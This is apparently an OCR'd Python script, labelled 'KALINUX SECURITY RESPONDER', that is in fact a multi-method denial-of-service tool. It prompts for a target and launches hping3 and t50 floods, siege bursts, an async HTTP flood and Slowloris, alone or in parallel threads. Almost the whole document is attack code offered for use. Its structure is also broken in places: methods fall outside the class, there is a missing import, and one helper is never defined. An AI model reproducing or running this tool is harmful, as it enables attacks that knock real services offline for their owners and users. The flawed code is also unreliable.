     #!/usr/bin/python3

    import os
    import subprocess
    import socket
    import random
    import asyncio
    import aiohttp
    import time
    import logging
    from concurrent.futures import ThreadPoolExecutor, as_completed
    from colorama import Fore, Style, init
    
    init(autoreset=True)
    logging.basicConfig(filename='attack_log.txt', level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
    
    os.system("clear")
    os.system("figlet KALINUX SECURITY RESPONDER")
    
    class AttackManager:
        def __init__(self, target_ip, target_port=80, num_requests=1000, max_threads=4, attack_duration=30):
            self.target_ip = target_ip
            self.target_port = target_port
            self.num_requests = num_requests
            self.max_threads = max_threads
            self.attack_duration = attack_duration
            self.protocol_methods = {
                "UDP": self.udp_flood,
                "TCP": self.tcp_syn_flood,
                "HTTP": self.run_http_attack,
                "T50": self.t50_attack,
                "Siege": self.siege_attack,
                "Hping3": self.hping3_attack,
                "Slowloris": self.slowloris_attack,
                "ICMP": self.icmp_flood
            }

    def resolve_ip(self):
        try:
            resolved_ip = socket.gethostbyname(self.target_ip)
            logging.info(f"[#] Target IP: {resolved_ip}")
            return resolved_ip
        except socket.gaierror:
            logging.error("Invalid target domain.")
            sys.exit(1)

    def icmp_flood(self):
        command = f"sudo hping3 {self.target_ip} --icmp --flood"
        subprocess.run(command, shell=True)


    def udp_flood(self):
        command = f"sudo hping3 {self.target_ip} --udp --flood -p {self.target_port}"
        subprocess.run(command, shell=True)

    def tcp_syn_flood(self):
        command = f"sudo hping3 {self.target_ip} -S -p {self.target_port} --flood"
        subprocess.run(command, shell=True)

    async def http_flood(self, session, url):
        headers = {"User-Agent": "Mozilla/5.0", "Connection": "keep-alive"}
        try:
            async with session.get(url, headers=headers) as response:
                logging.info(f"Sent GET request to {url}, Status: {response.status}")
        except Exception as e:
            logging.error(f"Error in HTTP request: {e}")

    async def run_http_attack(self):
        url = f"http://{self.target_ip}:{self.target_port}/{self.generate_random_path()}"
        async with aiohttp.ClientSession() as session:
            tasks = [self.http_flood(session, url) for _ in range(self.num_requests)]
            await asyncio.gather(*tasks)

    def slowloris_attack(self):
        sockets = []
        try:
            for _ in range(self.num_requests):
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(4)
                s.connect((self.target_ip, self.target_port))
                s.send("GET / HTTP/1.1\r\n".encode("utf-8"))
                sockets.append(s)
            while sockets:
                for s in sockets:
                    try:
                        s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
                    except socket.error:
                        sockets.remove(s)
                time.sleep(15)
        except Exception as e:
            logging.error(f"Slowloris error: {e}")

    def hping3_attack(self):
        commands = [
           f"sudo hping3 -A {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -S {self.target_ip} -p {self.target_port} --flood -d 1000",
           f"sudo hping3 -2 {self.target_ip} -p {self.target_port} -s 1024-65535 --flood",
           f"sudo hping3 -2 {self.target_ip} -p {self.target_port} --flood --interval u1000",
           f"sudo hping3 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -1 {self.target_ip} -p {self.target_port} --flood --interval u10",
           f"sudo hping3 -1 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -0 {self.target_ip} -p {self.target_port} --flood --interval u1000",
           ]
        for command in commands:
           self.run_command(command, "Hping3 attack")


    def t50_attack(self):
        commands = [
            f"sudo t50 {self.target_ip} --protocol TCP --flood --dport {self.target_port}",
            f"sudo t50 {self.target_ip} --protocol ICMP --flood",
            f"sudo t50 {self.target_ip} --protocol UDP --flood --dport {self.target_port}",
            f"sudo t50 {self.target_ip} --protocol IPSEC --flood",
            f"sudo t50 {self.target_ip} --protocol DCCP --flood",
            f"sudo t50 {self.target_ip} --protocol T50 --flood --dport {self.target_port}",
            ]
        for command in commands:
            self.run_command(command, "T50 attack")


    def siege_attack(self):
        commands = [
            f"siege -t 1m {self.target_ip}",
            f"siege -c 100 -t 1m {self.target_ip}",
            f"siege -c 200 -t 5m {self.target_ip}",
            f"siege -c 500 -t 1m -r 5 {self.target_ip}",
            f"siege -c 500 -t 5m -r 10 {self.target_ip}",
            f"siege -c 500 -t 5m -r 29 {self.target_ip}",
            ]
        for command in commands:
            self.run_command(command, "Siege attack")

    #    profits from this type of code building is possibility to add/or configure that much attacks as you want.

    def run_command(self, command, description):
        try:
           subprocess.run(command, shell=True, timeout=self.attack_duration)
           logging.info(f"{description} completed.")
        except subprocess.TimeoutExpired:
           logging.warning(f"{description} timed out.")
        except Exception as e:
           logging.error(f"Error during {description}: {e}")


    def execute_attack(self, protocol):
        if protocol == "HTTP":
            asyncio.run(self.run_http_attack())
        elif protocol in self.protocol_methods:
            self.protocol_methods[protocol]()
        else:
            logging.error(f"Invalid protocol: {protocol}")

    def start_parallel_attacks(self, protocols):
        with ThreadPoolExecutor(max_workers=self.max_threads) as executor:
            futures = [executor.submit(self.execute_attack, protocol) for protocol in protocols]
            for future in as_completed(futures):
                try:
                    future.result()
                except Exception as e:
                    logging.error(f"Error during parallel execution: {e}")

    def start_attack_sequence(self):
        print("Choose attack method(s):\n1. ICMP\n2. UDP\n3. TCP\n4. HTTP\n5. Slowloris\n6. T50\n7. Siege")
        method = input("Enter method numbers separated by commas: ")

        protocol_map = {"1": "ICMP", "2": "UDP", "3": "TCP", "4": "HTTP", "5": "Slowloris", "6": "T50", "7": "Siege"}
        selected_protocols = [protocol_map.get(m.strip()) for m in method.split(",") if protocol_map.get(m.strip())]

        if selected_protocols:
            print(Fore.RED + f"Starting attack(s): {', '.join(selected_protocols)}...")
            self.start_parallel_attacks(selected_protocols)
        else:
            print(Fore.RED + "Invalid selection.")

    if __name__ == "__main__":
        target_host = input(Fore.BLUE + "Enter target host (IP or domain): " + Style.RESET_ALL)
        target_port = int(input(Fore.BLUE + "Enter target port (default 80): " + Style.RESET_ALL) or 80)
        num_requests = int(input(Fore.BLUE + "Enter number of requests for HTTP Flood (default 1000): " + Style.RESET_ALL) or 1000)
        max_threads = int(input(Fore.BLUE + "Enter max threads (default 4): " + Style.RESET_ALL) or 4)

    manager = AttackManager(target_host, target_port, num_requests, max_threads)
    manager.start_attack_sequence()
